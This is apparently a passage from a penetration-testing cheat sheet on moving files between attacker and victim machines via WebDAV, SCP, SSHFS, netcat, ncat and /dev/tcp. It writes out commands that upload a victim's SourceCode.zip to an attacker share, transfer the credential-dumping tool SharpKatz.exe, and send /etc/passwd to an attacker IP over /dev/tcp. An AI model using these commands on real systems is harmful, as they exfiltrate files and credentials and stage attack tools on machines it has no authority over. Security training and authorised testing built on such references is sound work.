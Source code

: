 ```bash
sudo pip3 install wsgidav cheroot
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous # setup server

# Now we can attempt to connect to the share using the `DavWWWRoot` directory.
# dir \\192.168.49.128\DavWWWRoot # check the folder before upload 
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\ # upload
```
## SCP

The attacker has to have SSHd running. if no setup a ssh server

```bash
# setup ssh server on attacker machine first 
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt             # check the ssh port 22 open 
scp <directory>/<filename> <username>@<Attacker_IP>:"<to_folder/tmp/>"

# download 
scp <username>@<Attacker_IP>:"<to_folder/file>" .
```
>**Note:** You can create a temporary user account for file transfers and avoid using your primary credentials or keys on a remote computer.

## SSHFS

If the victim has SSH, the attacker can mount a directory from the victim to the attacker.

```bash
sudo apt-get install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```

## NC

```bash
nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file # we can add -q 0 will close the connection once the file upload finishes
```
## Ncat
```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe # --send-only for  immediately close the connection once it done.
ncat -l -p 8000 --recv-only > SharpKatz.exe # --recv-only to close the connection once the file transfer is finished
```
> Connecting to Netcat or Ncat Using /dev/tcp
> ```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
cat /etc/passwd > /dev/tcp/192.168.49.128/443
